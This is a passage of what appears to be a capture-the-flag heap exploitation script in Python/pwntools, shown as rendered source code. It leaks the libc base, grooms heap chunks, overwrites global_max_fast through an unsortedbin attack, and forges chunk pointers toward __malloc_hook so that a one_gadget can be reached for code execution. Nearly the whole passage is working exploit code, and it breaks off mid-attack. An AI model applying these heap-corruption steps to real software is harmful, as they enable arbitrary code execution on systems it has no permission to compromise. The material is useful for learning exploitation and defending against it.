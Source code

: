     libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
    print hex(libc_base)
    
    system=libc_base+libc.symbols['system']
    print "system",hex(system)


    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    one_gadget = libc_base + 0xe9415
    #one_gadget=libc_base+0xf02a4
    #global_max_fast=libc_base+0x3c67f8
    global_max_fast = main_arena +0x23e0
    delete(1)
    
    #gdb.attach(p)
    #re arrange the heap structure
    add(0x2a0,'a'*0x108+p64(0xc1)+'a'*0xb8+p64(0x91)+'a'*0x88+p64(0x51)+'\n')#1
    #split into 3 chunks
    
    delete(1)
    #gdb.attach(p)
    #add 1 to the unsortedbin
    add(0x300,'a\n')#1
    #gdb.attach(p)
    #now 1 in smallbins
    #new chunk from top chunk
    #main purpose is to add 1 to smallbin
    #because modify maxfast via unsortedbin attack will make
    #unsorted bin cant be used any more
    delete(4)
    #gdb.attach(p)
    #add 4 to th unsortedbin
    
    #unsortedbin attack, make fast max = unsorted bin's addr 
    add(0x2a0,'a'*0x108+p64(0xc0)+p64(global_max_fast-0x10)+p64(global_max_fast-0x10)+'a'*0xa0+p64(0xc0)+p64(0x91)+'\n')#2
    #gdb.attach(p)
    add(0xb0,'a\n')#4
    #gdb.attach(p)
    #raw_input()
    #now that since 4 is realloced,
    #so that the fake fd,bk now inseted into unsortedbin
    #their fd,bk now is unsortedbin's addr
    #it is excatly where global_max_fast lies in
    #p &global_max_fast
    #its a very large number
    delete(4)
    #hijack topchunk
    #insert into fastbin
    delete(2)
    
    #insert  the second large chunk,
    #which contains our fake chunk structure
    #main purpose is to re edit its content
    add(0x2a0,'a'*0x108+p64(0xc1)+p64(malloc_hook-0x10)+'\n')#2
    #make the fake fd ptr point to malloc_hook-0x10
    #global_max insert into smallbin
    
